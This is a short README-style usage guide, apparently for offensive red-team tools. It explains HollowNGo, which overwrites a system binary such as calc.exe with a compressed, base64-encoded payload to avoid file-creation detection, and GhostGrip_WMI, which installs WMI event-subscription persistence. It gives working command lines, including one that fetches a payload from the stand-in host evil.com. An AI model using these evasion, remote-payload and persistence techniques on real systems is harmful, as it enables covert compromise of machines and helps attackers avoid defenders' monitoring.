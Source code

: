 HollowNGo aims to avoid FileCreation Events by reading your payload as a byte array, compressing them, and converting the compressed bytes to base64 to a memorysteam. setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. There are a few options when running the tool as shown below.

Create compressed encoded binary data (This is expected to run on your dev box not the target)
HollowNGo.exe -encode <source.exe> -output <output.txt>
example: HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

Via data output from -encode option
HollowNGo.exe -source <base64_content> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

Via remote hosted file
HollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe


GhostGrip_WMI creates a WMIEventSubscription for your prefered event for persistence. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -randomizename true/false
example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -randomizename true
example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -randomizename false
